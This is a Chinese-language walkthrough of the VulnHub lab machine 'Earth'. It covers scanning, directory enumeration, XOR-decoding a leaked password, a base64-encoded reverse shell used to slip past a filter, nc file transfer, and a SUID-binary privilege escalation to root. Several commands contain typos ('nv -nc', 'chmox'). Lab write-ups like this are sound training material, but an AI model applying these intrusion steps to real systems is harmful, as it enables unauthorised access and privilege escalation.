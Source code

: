 # Earth -- VlunHub

> 下载靶机:https://www.vulnhub.com/entry/the-planets-earth,755/

* 导入虚拟机并设置好网络
* 开启盒子以及渗透虚拟机-->确保两台主机在同一个网络



## 信息收集:

* 网络信息扫描

  * 端口扫描 -- 已知当前网段为:172.16.148.*

  * > nmap -sS -sV -sC -O -v -T 5 172.16.148.1/24
    >
    > 参数说明: -sS 进行tcp syn扫描
    >
    > -sV 根据服务指纹识别出相应的版本
    >
    > -sC 根据端口识别服务,调用默认脚本
    >
    > -O 检测操作系统
    >
    > -v 显示扫描细节
    >
    > -T 扫描强度(0-5) 级别越高扫描越快

    > 或者使用 netdiscover -i eth0   监听当前网络流量
    >
    > 参数说明: -i 指定网卡进行监听
    >
    > ![image-20220414204745265](https://raw.githubusercontent.com/christopher-x/images/main/image-20220414204745265.png)

  * 访问ssh,80以及443端口后均无果

  * 将找到的dns记录映射到本地进行访问

  * > sudo echo "172.16.148.128 earth.local terratest.earth.local" >> /etc/hosts 
    >
    > ![image-20220414205505143](https://raw.githubusercontent.com/christopher-x/images/main/image-20220414205505143.png)

  * 尝试输入一些内容,此时得到的结果都是经过加密的,没有相应算法无法进行解密

* 信息收集:目录扫描

  * 使用dirsear进行扫描

    > dirsearch -u earth.local
    >
    > ![image-20220414205805150](https://raw.githubusercontent.com/christopher-x/images/main/image-20220414205805150.png)

  * 尝试访问

  * ![image-20220414210005120](https://raw.githubusercontent.com/christopher-x/images/main/image-20220414210005120.png)

  * 继续扫描当前网站,查看是否有其他的未知文件或目录

  * > gobuster dir -e -u earth.local -w /usr/share/wordlists/dirb/common.txt
    >
    > 参数说明:
    >
    > dir 扫描目录或文件
    >
    > -e 显示完整路径
    >
    > -u 指定扫描的网址
    >
    > -w 指定字典或字符串位置
    >
    > ![image-20220414212315022](https://raw.githubusercontent.com/christopher-x/images/main/image-20220414212315022.png)
    >
    > 不能说是一无所获,只能说是毛都没有

  * 扫描https网址: > https://terratest.earth.local 此处如果未加https则会重定向到earth.local

  * ![image-20220414212931593](https://raw.githubusercontent.com/christopher-x/images/main/image-20220414212931593.png)

  * 发现robots.txt文件,打开看看...

  * ![image-20220414213459622](https://raw.githubusercontent.com/christopher-x/images/main/image-20220414213459622.png)

  * 此处有一项内容不允许抓取,连续测试文件后缀名,排除已在列表之上的所有扩展名.(直接试txt)

  * 信息收集:查看文件

  * > curl https://terratest.earth.local/testingnotes.txt -k  获取文件---当然也可以在浏览器中打开
    >
    > 参数说明:
    >
    > -k 允许连接到 SSL 站点，而不使用证书
    >
    > ![image-20220414214153186](https://raw.githubusercontent.com/christopher-x/images/main/image-20220414214153186.png)

  * 书接上文,此时已经看到当前的加密方式为XOR,且已经得到了用户名,密钥的解密方式可能会存在于`testdata.txt`中尝试将页面中的字符串进行解密

  * ![image-20220414215438804](https://raw.githubusercontent.com/christopher-x/images/main/image-20220414215438804.png)

* 使用cyberchef将数据进行解密,首先需要将字符串转换为16进制,在进行xor解密

  * ![image-20220414221146463](https://raw.githubusercontent.com/christopher-x/images/main/image-20220414221146463.png)
  * 尝试登陆:
  * ![image-20220414221322145](https://raw.githubusercontent.com/christopher-x/images/main/image-20220414221322145.png)
  * 使用shell进行连接----被禁止远程连接. 
  * ![image-20220415112323869](https://raw.githubusercontent.com/christopher-x/images/main/image-20220415112323869.png)
  * 此时我们可以通过将反弹shell进行编码来进行绕过,此处使用base64编码,当然使用其他编码也是可以的.
  * ![image-20220415113450920](https://raw.githubusercontent.com/christopher-x/images/main/image-20220415113450920.png)
  * 将已准备好的命令进行base64编码后重定向到bash,使用`-e`参数来指定重定向的shell

* 权限提升

  * 当前这个权限肯定是啥也干不了的~
  * 使用查找命令找到当前可执行的二进制文件`find / -perm -u=s 2>/dev/null`
    * 参数说明:
    * find 查找命令
    * -perm mode     文件的权限正好是mode就匹配
      -perm -mode    文件的权限包括mode就匹配（该文件还可以拥有额外的权限属性）
    * -u=s  当前用户可执行的suid的脚本或文件
    * 2为过滤输出,只输出正确的内容,过滤掉错误的信息.
  * ![image-20220415125602811](https://raw.githubusercontent.com/christopher-x/images/main/image-20220415125602811.png)
  * 看到一个重置root的文件,执行一下看看
  * ![image-20220415125937905](https://raw.githubusercontent.com/christopher-x/images/main/image-20220415125937905.png)
  * 执行失败,将文件下载之后查看内容 `再启一个端口将文件传回`
  * `nc -nvlp 8889 > reset_root` 服务器端监听8889端口并将接受到的文件重命名为reset_root
  * `nv -nc 8889 < /usr/bin/reset_root` 将客户端的文件传回服务器端
  * ![image-20220415130433781](https://raw.githubusercontent.com/christopher-x/images/main/image-20220415130433781.png)
  * 在服务器端查看该文件 `使用strings` 来查看该二进制文件
  * ![image-20220415131622450](https://raw.githubusercontent.com/christopher-x/images/main/image-20220415131622450.png)
  * 无法得出有效信息,尝试使用工具进行跟踪代码
  * `ltrace ./reset_root` 使用该命令之前需要将代码修改为可执行状态`chmox +x reset_root`
  * ![image-20220415131909783](https://raw.githubusercontent.com/christopher-x/images/main/image-20220415131909783.png)
  * 执行到此处后提示缺少文件,根据提示在客户端创建三个文件
  * 再次执行`/usr/bin/reset_root`文件
  * ![image-20220415132511034](https://raw.githubusercontent.com/christopher-x/images/main/image-20220415132511034.png)
  * 根据提示运行成功,并将root密码成功重置为`Earth`
  * ![image-20220415132949855](https://raw.githubusercontent.com/christopher-x/images/main/image-20220415132949855.png)
  * 以已成功获取到root权限
  * ![image-20220415133120328](https://raw.githubusercontent.com/christopher-x/images/main/image-20220415133120328.png)